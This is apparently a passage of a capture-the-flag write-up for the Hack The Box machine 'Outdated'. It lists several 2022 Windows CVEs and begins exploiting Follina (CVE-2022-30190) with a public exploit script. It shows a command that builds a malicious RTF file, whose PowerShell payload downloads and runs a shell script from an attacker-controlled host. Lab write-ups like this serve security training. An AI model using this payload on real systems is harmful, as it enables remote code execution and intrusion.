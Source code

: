![](attachments/outdated_1.png)

It's an announcement to IT Staff regarding vulnerabilities found recently.
Also there seems to be an email `itsupport@outdated.htb` which might be useful with smtp.

Plus, let's do research on the listed vulnerabilities.

First, `CVE-2022-30190` is RCE vulnerabilities observed in `Microsoft Windows Support Diagnostic Tool(MSDT)`.
https://www.hackthebox.com/blog/cve-2022-30190-follina-explained
Second, `CVE-2022-30138` is RCE vulnerability happening on `Print Spooler` and related with Privilege Escalation.
Third, `CVE-2022-30129` is RCE vulnerability happening on `Visual Studio Code`.
Forth, `CVE-2022-29130` is related with `LDAP` service.
Lastly, `CVE-2022-29110` is related with `Microsoft Excel`.

# Shell as `btables`

### Exploiting CVE-2022-30190

CVE-2022-30190 is critical RCE vulnerability that once the target system's user opens a link, the msdt protocol allows the RCE commands.

I'm using the following public exploit;
<https://github.com/chvancooten/follina.py/tree/main>

```bash
┌──(kali㉿kali)-[~/htb/follina.py]
└─$ python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14/shell.ps1')"
Generated 'clickme.rtf' in current directory
Generated 'exploit.html' in 'www' directory
Serving payload on http://localhost:80/exploit.html
```
